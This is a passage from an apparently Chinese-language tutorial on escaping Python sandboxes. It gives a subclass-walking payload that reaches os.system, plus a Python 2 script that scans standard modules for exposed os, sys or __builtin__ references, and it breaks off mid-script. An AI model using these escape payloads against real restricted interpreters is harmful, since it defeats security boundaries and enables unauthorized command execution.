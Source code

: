 ```py
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')
```

可以编写一个函数对导入了 os 或 sys 的库进行一个遍历：
```py
#!/usr/bin/env python
all_modules = [
    'BaseHTTPServer', 'imaplib', 'shelve', 'Bastion', 'anydbm', 'imghdr', 'shlex', 'CDROM', 'argparse', 'imp', 'shutil', 'CGIHTTPServer', 'array', 'importlib', 'signal', 'ast', 'imputil', 'site', 'ConfigParser', 'asynchat', 'inspect', 'sitecustomize', 'Cookie', 'asyncore', 'io', 'smtpd', 'DLFCN', 'atexit', 'itertools', 'smtplib', 'audiodev', 'json', 'sndhdr', 'DocXMLRPCServer', 'audioop', 'keyword', 'socket', 'base64', 'lib2to3', 'spwd', 'FixTk', 'bdb', 'linecache', 'sqlite3', 'HTMLParser', 'binascii', 'linuxaudiodev', 'sre', 'IN', 'binhex', 'locale', 'sre_compile', 'MimeWriter', 'bisect', 'logging', 'sre_constants', 'Queue', 'bsddb', 'sre_parse', 'bz2', 'macpath', 'ssl', 'cPickle', 'macurl2path', 'stat', 'SimpleHTTPServer', 'cProfile', 'mailbox', 'statvfs', 'SimpleXMLRPCServer', 'cStringIO', 'mailcap', 'string', 'SocketServer', 'calendar', 'markupbase', 'stringold', 'StringIO', 'cgi', 'marshal', 'stringprep', 'TYPES', 'cgitb', 'math', 'strop', 'chunk', 'md5', 'struct', 'Tkconstants', 'cmath', 'mhlib', 'subprocess', 'cmd', 'mimetools', 'sunau', 'code', 'mimetypes', 'sunaudio', 'UserDict', 'codecs', 'mimify', 'symbol', 'UserList', 'codeop', 'mmap', 'symtable', 'UserString', 'collections', 'modulefinder', 'sys', 'colorsys', 'multifile', 'sysconfig', 'commands', 'multiprocessing', 'syslog', '__builtin__', 'compileall', 'mutex', 'tabnanny', '__future__', 'compiler', 'netrc', '_abcoll', 'contextlib', 'new', 'tarfile', '_ast', 'cookielib', 'nis', 'telnetlib', '_bisect', 'copy', 'nntplib', 'tempfile', '_bsddb', 'copy_reg', 'ntpath', 'termios', '_codecs', 'crypt', 'nturl2path', 'test', '_codecs_cn', 'csv', 'numbers', 'textwrap', '_codecs_hk', 'ctypes', 'opcode', '_codecs_iso2022', 'curses', 'operator', 'thread', '_codecs_jp', 'datetime', 'optparse', 'threading', '_codecs_kr', 'dbhash', 'os', 'time', '_codecs_tw', 'dbm', 'os2emxpath', 'timeit', '_collections', 'decimal', 'ossaudiodev', '_csv', 'difflib', 'parser', '_ctypes', 'dircache', 'pdb', '_ctypes_test', 'dis', 'pickle', '_curses', 'distutils', 'pickletools', '_curses_panel', 'doctest', 'pipes', '_elementtree', 'dumbdbm', 'pkgutil', 'toaiff', '_functools', 'dummy_thread', 'platform', 'token', '_hashlib', 'dummy_threading', 'plistlib', 'tokenize', '_heapq', 'email', 'popen2', 'trace', '_hotshot', 'encodings', 'poplib', 'traceback', '_io', 'ensurepip', 'posix', '_json', 'errno', 'posixfile', 'tty', '_locale', 'exceptions', 'posixpath', '_lsprof', 'fcntl', 'pprint', 'types', '_md5', 'filecmp', 'profile', 'unicodedata', '_multibytecodec', 'fileinput', 'pstats', 'unittest', '_multiprocessing', 'fnmatch', 'pty', 'urllib', '_osx_support', 'formatter', 'pwd', 'urllib2', '_pyio', 'fpformat', 'py_compile', 'urlparse', '_random', 'fractions', 'pyclbr', 'user', '_sha', 'ftplib', 'pydoc', 'uu', '_sha256', 'functools', 'pydoc_data', 'uuid', '_sha512', 'future_builtins', 'pyexpat', 'warnings', '_socket', 'gc', 'quopri', 'wave', '_sqlite3', 'genericpath', 'random', 'weakref', '_sre', 'getopt', 're', 'webbrowser', '_ssl', 'getpass', 'readline', 'whichdb', '_strptime', 'gettext', 'repr', 'wsgiref', '_struct', 'glob', 'resource', 'xdrlib', '_symtable', 'grp', 'rexec', 'xml', '_sysconfigdata', 'gzip', 'rfc822', 'xmllib', '_sysconfigdata_nd', 'hashlib', 'rlcompleter', 'xmlrpclib', '_testcapi', 'heapq', 'robotparser', 'xxsubtype', '_threading_local', 'hmac', 'runpy', 'zipfile', '_warnings', 'hotshot', 'sched', 'zipimport', '_weakref', 'htmlentitydefs', 'select', 'zlib', '_weakrefset', 'htmllib', 'sets', 'abc', 'httplib', 'sgmllib', 'aifc', 'ihooks', 'sha'
]
methods = ['os', 'sys', '__builtin__']
results = {}
for module in all_modules:
    results[module] = {
        'flag': 0,
        'result': {}
    }
    try:
        m = __import__(module)
        attrs = dir(m)
        for method in methods:
            if method in attrs:
                results[module]['flag'] = 1
                results[module]['result'][method] = '\033[1;31mYES\033[0m'
            else:
                results[module]['result'][method] = 'NO'
    except Exception as e:
        print module, e
for result in results:
```